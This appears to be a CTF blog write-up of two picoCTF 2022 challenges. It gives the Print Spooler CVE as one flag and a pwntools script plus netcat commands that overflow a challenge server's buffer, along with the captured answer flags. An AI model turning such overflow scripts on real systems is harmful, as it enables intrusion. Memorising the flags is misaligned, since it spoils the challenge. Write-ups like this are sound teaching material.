```yaml
---
layout: post
title: 'Pico CTF 2022: Binary Exploitation ⚙️ 🛠'
date: 2022-04-04 11:38 +0800
categories:
- CTF
- Binary-Exploitation
tags:
- CTF
- Binary-Exploitation
- picoctf-2022
---
```


# CVE-XXXX-XXXXX

Enter the CVE of the vulnerability as the flag with the correct flag format:
picoCTF{CVE-XXXX-XXXXX} replacing XXXX-XXXXX with the numbers for the matching vulnerability.
The CVE we're looking for is the first recorded remote code execution (RCE) vulnerability in 2021 in the Windows Print Spooler Service, which is available across desktop and server versions of Windows operating systems. The service is used to manage printers and print servers.

With simple googling.
<https://nsfocusglobal.com/windows-print-spooler-rce-vulnerabilities-cve-2021-1675-cve-2021-34527-mitigation-guide/>

Flag : `picoCTF{CVE-2021-34527}`

# buffer overflow 0

Smash the stack
Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here. And connect with it using:

You can programmatically write a python script to overflow the buffer of the remote program as below.

```python
#!/usr/bin/python

import pwn

host = "saturn.picoctf.net"
port = 55986
payload = bytes('A'*101, encoding="ascii")



conn = pwn.remote(host,port)
conn.sendlineafter(b' ',payload)
output = conn.recvline(timeout=5)

print(output)
```

```bash
➜  bof0 python bof.py 
[+] Opening connection to saturn.picoctf.net on port 55986: Done
b'picoCTF{ov3rfl0ws_ar3nt_that_bad_ee2fd2b1}\n'
[*] Closed connection to saturn.picoctf.net port 55986
```

Or you can just manually overflow over netcat connection as below.

```bash
➜  bof0 python -c "print('A'*101)"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
➜  bof0 nc saturn.picoctf.net 55986
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
picoCTF{ov3rfl0ws_ar3nt_that_bad_ee2fd2b1}
```

Flag : `picoCTF{ov3rfl0ws_ar3nt_that_bad_ee2fd2b1}`
